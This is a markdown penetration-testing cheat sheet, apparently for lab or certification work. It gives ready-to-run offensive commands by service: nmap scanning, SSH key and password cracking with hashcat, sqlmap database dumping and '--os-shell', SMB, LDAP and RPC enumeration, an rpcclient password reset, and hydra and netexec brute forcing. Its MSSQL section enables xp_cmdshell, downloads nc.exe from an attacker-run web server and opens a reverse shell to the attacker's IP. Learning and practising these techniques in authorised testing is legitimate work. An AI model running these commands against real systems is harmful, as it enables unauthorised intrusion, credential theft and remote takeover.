

### Scanning
- Basic Nmap Scan - `sudo nmap -sS -sV -O -T5 -Pn <IP>`
- Aggressive Nmap Scan - `sudo nmap -A -T5 -Pn <IP>`
- All Port Nmap Scan - `sudo nmap -p- -T5 -Pn <IP>` 
- All Port Nmap Scan - `sudo nmap -p- -A -T5 -Pn <IP>`
- UDP Nmap Scan - `sudo nmap -sU -sV -T5 -Pn <IP>`
- UDP Top 10 Port Nmap Scan - `sudo nmap -sU --top-ports 10 -T5 -Pn <IP>`
- UDP Aggressive Top 10 Port Nmap Scan - `sudo nmap -sU -A --top-ports 10 -T5 -Pn <IP>`
- When to run nse script but not brute - `nmap -sV --script "ldap* and not brute" -T5 <IP>`
- Useful Ports - `ftp(21), ssh(22), telnet(23), smtp(25,465,587), domain(53), http(80,443), msrpc(135), smb(139,445), snmp(udp/161), ldap(389,636,3268,3269), rdp(3389), MySQL(3306), MSSQL(1433), WinRM(5985,5986,14001)`

### Enumeration
#### ftp
- Check if ftp-anon and get username from Nmap Aggressive Scan.
- FTP Access - `ftp <IP>` → Name: `<name>` → Password: `<password>`
- Download everything from FTP Server - `wget -m --user="<username>" --password="<password>" ftp://<IP>`
#### ssh
- Basic SSH Login - `ssh <username>@<IP>` → Password: `<password>`
- Try this if found any Private Key SSH Login - `ssh -i <private_key> <username>@<IP>` → Passphrase: `<passphrase>`
- Get `<passphrase>` from `<private_key>`
    - `chmod 600 <private_key>`
        - `<private_key>` can be found in `id_rsa, id_ecdsa, id_ecdsa_sk, id_ed25519, id_ed25519_sk, id_dsa`
        - Get hash of `<private_key>` - `ssh2john <private_key> > hash.file`
        - `hashcat --help | grep 'ssh'` → get suitable `<mode>`
        - Check hash example from - [Reference](https://hashcat.net/wiki/doku.php?id=example_hashes)
        - Get cracked hash - `hashcat -m <mode> hash.file /usr/share/wordlists/rockyou.txt`
	        - By imposing rules - `hashcat -m <mode> hash.file /usr/share/wordlists/rockyou.txt -r /usr/shares/hashcat/rules/best64.rule --force`
#### smtp
- Send mail from sender to recipient - `sudo swaks -t <mail-sender> --from <mail-recipient-1>,<mail -recipient-2>,..<mail-recipient-n> --attach @config.Library-ms --server <IP> --body @msg.txt --header "Subject: Problems" --suppress-data –ap → Username: <mail-sender> → Password: <password>`
#### domain
- Initial Configuration
  - Open Network Manager - `sudo nm-connection-editor`
  - Add Target IP and `8.8.8.8` to `Additional DNS servers` field of `IPv4 Settings` section`
  - Restart Network Manager service - `sudo systemctl restart NetworkManager`
  - Check if expected IP entries are created in `/etc/resolv.conf`

- Declare Target IP and corresponding domain - `echo '<IP> <domain>' >> /etc/hosts`
- Check if connecting to domain - `nslookup <domain>`
- Explore more about subdomain - `dig axfr <domain> @<IP>`
- Ask the DNS server to return all the available entries that it is willing to disclose - `dig any <domain> <IP>`
#### http
- Enumerate web server - `whatweb -v http://<IP>`
- Parse website to get keywords - `cewl -w cewl.txt http://<IP>`
- Web vulnerability scanner - `nikto -h http://<IP>`
- Wordpress website vulnerability scanner - `wpscan --url http://<IP>/ -e t,p,u --api-token <API-Token>`
	- Brute-forcing wordpress website - `wpscan --url <path-to-website> --usernames <user-file> --passwords <password-file>`
    - Special command for scanning aggressive plugin vulnerability - `wpscan --url http://<IP> --enumerate p --plugins-detection aggressive`
- Directory enumeration - `gobuster dir -w <wordlist> --url http://<IP>/ -x <extensions>`
	- My favourite -
		- `<wordlist>`
			- `/usr/share/wordlists/dirb/common.txt`
			- `/usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt`
			- `/usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt`
			- `/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt` 
		- `<extensions>` 
			- Linux - `.txt,.html,.php` 
			- Windows - `.txt,.html,.php,.asp,.aspx` 
	- -k : disable certificate check (incase of HTTPS)
    - Gobuster FUZZING -
	    - `echo "{GOBUSTER}/v1\n{GOBUSTER}/v2" > pattern`
        - `gobuster dir –u <URL> -w <wordlist> -p pattern`
	        - -p=pattern file. So, if 'abc' is picked from wordlist, input to brute force will go as 'abc', 'abc/v1' and 'abc/v2'
- Deep Nested directory enumeration - `feroxbuster -u http://<IP>/ -x <extensions> -w <wordlist> -k`
- Fuzzing Subdomains - `ffuf -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -u http://FUZZ.<base-domain> -t 60`
	- `-fw <words>` → Filter by amount of word
    - `-H 'Host: FUZZ.siteisup.htb'` → If wanna put Fuzzing on any header
    - `-mc 200,302` → Match the HTTP status code we want
    - `-d <data>` → Body  Data for POST Request
    - `-X <HTTP-Method>` → HTTP Method to use
- sqlmap
	- Enumerate DBMS and Technique - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2`
    - Enumerate Database name - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2 --dbms '<DBMS>' --technique '<technique>' --dbs`
    - Enumerate Table name - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2 --dbms '<DBMS>' --technique '<technique>' -D '<database>' --tables`
    - Enumerate Column name - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2 --dbms '<DBMS>' --technique '<technique>' -D '<database>' -T '<table>' --columns`
    - Dump all data - `sqlmap -u '<URL>' -p '<parameter>' -batch --random-agent --level=2 --risk=2 --dbms '<DBMS>' --technique '<technique>' -D '<database>' -T '<table>' --dump`
    - For HTTP POST Request - `sqlmap -u '<URL>' --data='<body>' -p '<parameter>' -batch --random-agent --level=2 --risk=2`
    - Alternative way for enumeration - `sqlmap -r '<HTTP-request-file>' -p '<parameter>' -batch --random-agent --level=2 --risk=2`
    - Gain remote shell - `sqlmap -u '<URL>' --os-shell`
#### kerberos-sec
- AD User Enumeration - [Hacktricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology#user-enumeration)
    - `nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=<user-file> <IP>`
#### msrpc
- Login without password - `rpcclient -U '' --no-pass <IP>`
- Login with password - `rpcclient -U '<domain>/<username>%<password>' <IP>`
- In RPC-CLI
	- Enumerate users - `enumdomusers`
    - Enumerate specific user - `queryuser <user-id>`
    - Display User Information - `querydispinfo`
    - Enumerate groups - `enumdomgroups`
    - Enumerate specific group - `querygroup <group-id>`
    - Enumerate member of group - `querygroupmem <group-id>`
    - Enumerate Domain - `enumdomains`
    - Enumerate Domain SID - `lsaquery`
    - Enumerate Domain Information - `querydominfo`
    - Enumerate Available shares - `netshareenumall`
    - Enumerate Specific share - `netsharegetinfo <share>`
    - Set Password for Target System User - `setuserinfo2 <username> 23 '<password>'`
- Identified exposed RPC Services - `impacket-rpcdump -p 135 <domain>`
#### smb
- Anonymous access allowed
	- Enumerate SMB Shares - 
		- `smbclient -L //<IP>/` → Password: 
		- `crackmapexec smb <IP> -u 'anon' -p '' --shares`
	- Access SMB Shares - `smbclient //<IP>/<sharename>` → Password:
	- Enumerate all information related to SMB - `enum4linux -a <IP>`
	- Password Policy - `crackmapexec smb <IP> --pass-pol`
	- Dump user information - `impacket-samrdump -port 445 -no-pass anon@<IP>`
	- Enumerate Local users - `impacket-lookupsid -port 445 -no-pass anon@<IP>`
- Authenticated access only
	- Enumerate SMB Shares -
		- `smbclient -L //<IP>/ -U '<domain>/<username>'` → Password: `<password>`
		-  `crackmapexec smb <IP> -u '<username>' -p '<password>' --shares`
		- `smbmap -H <IP> -u '<username>' -p '<password>'`
	- Access SMB Shares - `smbclient //<IP>/<sharename> -U '<domain>/<username>'` → Password: `<password>`
	- Enumerate all information related to SMB -` enum4linux -u <domain>/<username> -p <password> -a <IP>`
- Enumerate files in SMB Share - 
	- `smbmap -d '<domain>' -u '<username>' -p '<password>' -r '<sharename>' --depth <depth-count> -H <IP>`
- Download specific file on share - 
	- `smbmap -d '<domain>' -u '<username>' -p '<password>' -s <sharename> -H <IP> --download '<Path-to-file>'`
- Download all files on share -
```
smbclient '\\server\share'
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```
- Mount SMB Share to local system -
	- `sudo umount /mnt`
	- `sudo mount -t cifs -o 'username=<username>,password=<password>' '//<IP>/<sharename>' /mnt`
- More detailed information about accessible shares - `sudo nmap --script smb-enum-shares.nse -p445 -T5 -Pn <IP>`
#### ldap
- Extract brief information about ldap - `ldapsearch -H ldap://<IP>:389/ -x -s base namingcontexts`
- Extract all information related to ldap - `ldapsearch -H ldap://<IP>:389/ -x -b "<DN>"`
	- Get `<DN>` from previous command output
- Extract all user information by filtering with 'user' objectClass - `ldapsearch -H ldap://<IP>:389/ -x -b "<DN>" '(objectClass=user)'`
- Extract user information with applying field filter - `ldapsearch -H ldap://<IP>:389/ -x -b "<DN>" '(objectClass=user)' samAccountName samAccountType description`
- List of usernames - `ldapsearch -H ldap://<IP>:389/ -x -b "<DN>" '(objectClass=user)' samAccountName | grep 'sAMAccountName' | awk '{print $2}'`
- List of names of users - `ldapsearch -H ldap://<IP>:389/ -x -b "DC=<DN>" '(objectClass=user)' name | grep 'name' | awk -F '\:' '{print $2}'`
- List of all groups and there members - `ldapsearch -H ldap://<IP>:389/ -x -b "<DN>" '(objectClass=Group)' samAccountName samAccountType member`
- Same commands for port 3268. For port 636 and 3269, use URL as `ldaps://<IP>:<port>`
- Dump all available information in viewable format - `ldapdomaindump -u <domain>\\<username> -p '<password>' <IP> -o <output-path>`
#### snmp
- Enumerate SNMP - `sudo snmpwalk -v <version> -c <community> <IP>`
- Enumerate SNMP with extended query - `sudo snmpwalk -v <version> -c <community> <IP> NET-SNMP-EXTEND-MIB::nsExtendObjects`
- Enumerate SNMP with more extended query  - `sudo snmpwalk -v <version> -c <community> <IP> NET-SNMP-EXTEND-MIB::nsExtendOutputFull`
	- `<version>` → v1/v2c/v3
    - `<community>` → public/private
#### rdp
- RDP Login - `xfreerdp /v:<IP> /d:<domain> /u:<username> /p:<password> /w:1200 /h:700 +drive:<path-share-in-target-system>,<path-share-in-local-system>`
- Enumerate Information about target IP - `rdesktop <IP>`
#### mssql
- Connect MSSQL CLI - `impacket-mssqlclient -windows-auth <domain>/<username>:<password>@<IP>`
- Get shell via Command Execution
```
mssql> EXECUTE sp_configure 'show advanced options', 1;
mssql> RECONFIGURE;
mssql> EXECUTE sp_configure 'xp_cmdshell', 1;
mssql> RECONFIGURE;
Kali> python3 -m http.server 80
mssql> EXECUTE xp_cmdshell "certutil -urlcache -f http://<IP>/nc.exe c:/Tools/nc.exe";
Kali> nc -nlvp 4444
mssql> EXECUTE xp_cmdshell "c:/Tools/nc.exe -e cmd.exe <IP> 4444";
```
#### winRM
- WinRM Login - `evil-winrm -i <IP> -u <username> -p <password>`
#### Brute Force
- hydra
	- `hydra -l <username> -p <password> -t 4 <IP> ssh`
	- `hydra -L <username-file> -P <password-file> -t 4 <IP> ssh`
	- eg. Hydra HTTP POST Request
		- `hydra -l admin -P /usr/share/wordlists/rockyou.txt <IP> http-post-form '/admin:user=^USER^&pass=^PASS^:F=Username or password invalid:H=Cookie\:PHPSESSID=8iq9himthuca7tvv1cklua354k'`
	- eg. Hydra HTTP GET Request
		- `hydra -l admin -P /usr/share/wordlists/rockyou.txt 'http-get://<IP>/path/to/url/:username=^USER^&password=^PASS^:H=Cookie\:PHPSESSID=8iq9himthuca7tvv1cklua354k:F=Username or password invalid'`
- netexec / crackmapexec
	- Use username and password on same line number - `netexec ssh <IP> -u <user-file> -p <pass-file> --continue-on-success --no-brute`
	- Brute force with given username and password - `netexec ssh <IP> -u <user-file> -p <pass-file> --continue-on-success
	- `<pass-file>` can be `<user-file>`, `<cewl-keyword-file>`, `<crunch-wordlist>`, `<common-wordlist>` 
- Convert Names to Possible Usernames via Vim
	- We will perform combinations of names using vim such as - `Ryan Bertrand, Ryan, Ryan.Bertrand, RyanBertrand, R.Bertrand, RBertrand`
    - `vim name.lst` - contains `Ryan Bertrand`
    - Type `qa` to start recording
    - Go to first line on first character
    - Type `yy` to copy and then type `5p` for 5 copies of first line
    - Now, go to 2nd copy -> type `/ ` and enter -> type `dw` twice -> type `0` -> gives `Ryan`
    - Now, go to 3rd copy -> type `:s/ /.`  and enter -> type `0` -> gives `Ryan.Bertrand`
    - Now, go to 4th copy -> type `:s/ /` and enter -> type `0` -> gives `RyanBertrand`
    - Now, go to 5th copy -> go to 2nd character -> type `dw` -> type `0` -> gives `RBertrand`
    - Now, go to 6th copy → go to 2nd character -> type `dw` -> type i and insert . -> Esc -> type `0` -> gives `R.Bertrand`
    - Now, finish recording by typing `q`
    - Now, go to next name and to replay the above steps type `@a`
